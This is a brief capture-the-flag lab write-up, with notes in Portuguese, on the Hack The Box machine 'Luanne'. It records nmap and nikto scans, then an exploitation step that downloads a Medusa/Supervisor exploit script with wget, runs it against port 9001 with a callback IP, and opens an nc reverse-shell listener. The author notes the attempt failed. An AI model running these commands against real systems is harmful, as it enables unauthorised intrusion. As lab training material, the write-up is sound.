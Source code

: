 Luanne
========================

# Enumeration

    sudo nmap_enum luanne.htb | tee nmap_output.txt
  
![qownnotes-media-UacodT](../../../media/qownnotes-media-UacodT.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn luanne.htb | tee nmap_udp_output.txt

![qownnotes-media-AxxIHK](../../../media/qownnotes-media-AxxIHK.png)

    sudo nmap -p- -Pn -T5 -n luanne.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-itDzcJ](../../../media/qownnotes-media-itDzcJ.png)

    sudo nmap -sS --script vuln -n -T5 -Pn luanne.htb -p 22,80,9001 | tee nmap_vulns.txt
    
![qownnotes-media-WwkXnW](../../../media/qownnotes-media-WwkXnW.png)


## Scan

    nikto -host http://luanne.htb -T x 6 | tee nikto_output.txt
    
![qownnotes-media-eqMRRV](../../../media/qownnotes-media-eqMRRV.png)


    firefox http://luanne.htb/weather

![qownnotes-media-cMtOcZ](../../../media/qownnotes-media-cMtOcZ.png)

# Exploitation

    searchsploit weather
    searchsploit medusa
    searchsploit supervisor process manager
    wget https://gist.githubusercontent.com/mhaskar/74107e04a2f90cab195ff8e5aa7b85c3/raw/ad55666d3f5108c89fbc52b6d2f563b8fa434b5e/Medusa-Exploit.py
    python2 Medusa-Exploit.py http://luanne.htb:9001 10.10.14.14 8081

![qownnotes-media-YLxdKj](../../../media/qownnotes-media-YLxdKj.png)

![qownnotes-media-ziASNk](../../../media/qownnotes-media-ziASNk.png)

    nc -nlvp 8081

![qownnotes-media-PRNWBk](../../../media/qownnotes-media-PRNWBk.png)


**NÃO FUNCIONOU**

Vamos tentar com outra abordagem


